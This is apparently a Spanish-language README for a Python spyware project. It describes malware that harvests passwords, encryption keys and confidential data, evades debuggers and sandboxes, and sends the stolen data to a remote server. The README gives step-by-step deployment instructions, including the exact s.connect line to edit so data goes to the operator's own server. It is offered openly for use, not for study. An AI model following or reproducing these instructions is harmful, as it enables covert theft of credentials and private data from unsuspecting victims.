 Spyware made in python with me, zNetDev.a

A simple spyware with anti-debugging and anti-sandboxinga

un spyware simple echo por mi

Este código recopila información (como contraseñas, claves de cifrado y datos confidenciales) y te las envía a un servidor remoto. Este código es básico con técnicas básicas para no ser detectado, si buscas algo para tú poder infiltrarte en sitios grandes y recopilar información con este código,busca otro repositorio publico

¿como se usa?

•Primero preparamos el terreno:

Antes que nada, necesitas tener Python instalado en tu computadora. Si no lo tienes, puedes conseguirlo fácilmente desde el sitio web oficial de Python. La instalación es bastante sencilla, solo sigue las instrucciones que te de el sitio oficial

•conseguir las herramientas necesarias

Este código necesita algunas cosas adicionales para funcionar correctamente. Para obtenerlas, abre una ventana de comandos (en Windows, sería el símbolo del sistema) y escribe lo siguiente:

pip install pycriptodome

•preparar tu propio servidor

Antes de ejecutar el código, necesitas configurar un servidor al que el script enviará los datos que recolecte y desde el cual descargar archivos adicionales si es necesario. Tendrás que tener una dirección IP y un número de puerto a mano para hacerlo.

•modificiacion del código 

Abre el archivo de código Python en un editor de texto o un entorno de desarrollo integrado (IDE) como Visual Studio Code o PyCharm. Busca la línea que contiene la dirección IP y el puerto del servidor remoto, esta se encuentra en la línea 80 del código (s.connect(('192.168.1.100', 12345))). Cambia la dirección IP '192.168.1.100' y el puerto 12345 por los de tu servidor remoto

•ejecutar el code

Una vez que hayas hecho las modificaciones q te he dicho, guarda el archivo de código. Abre una terminal o símbolo del sistema y navega hasta el directorio donde se encuentra el archivo de código Python. Ejecuta el script Python con el siguiente comando:

python nombre_del_archivo.py

(cambia el nombre_del_archivo.py con el nombre del archivo que tengas)

tengo pensado hacer este malware modificado en C o en js.

